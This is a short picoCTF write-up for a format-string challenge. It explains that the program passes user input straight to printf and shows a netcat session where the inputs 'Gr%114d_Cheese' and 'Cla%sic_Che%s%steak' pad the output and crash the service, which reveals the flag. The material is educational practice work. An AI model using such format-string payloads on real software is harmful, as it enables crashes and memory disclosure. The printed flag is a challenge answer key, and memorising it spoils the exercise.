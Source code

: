 ```c title="/format-string-0.c"
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    
    fgets(&flag, 64, fp);

    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
    return 0;
}
```

## Analysis

A close inspection of the program’s decompiled code reveals that special characters with `%` are printed in `printf()`. By selecting an appropriate format string as input, you can have that format string printed and cause a segmentation fault.

The string `Gr%114d_Cheese` prints a specific number of spaces on the screen, followed by additional strings. The code below calls `serve_bob()` if the number of characters printed by printf exceeds 64.

```c
if (printf(&format) > 0x40) /* 0x40 => 64 */  
    return serve_bob();
```

The string `Cla%sic_Che%s%steak` calls `%s` a total of 3 times. In the `printf()` statement containing this string, `%s` is called 6 times in total to print the string. By attempting to call 3 additional non-existent strings, a **segmentation fault** is triggered.



```bash
therustymate-picoctf@webshell:~$ nc mimas.picoctf.net 60589
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_f89c1405}

therustymate-picoctf@webshell:~$ 
```
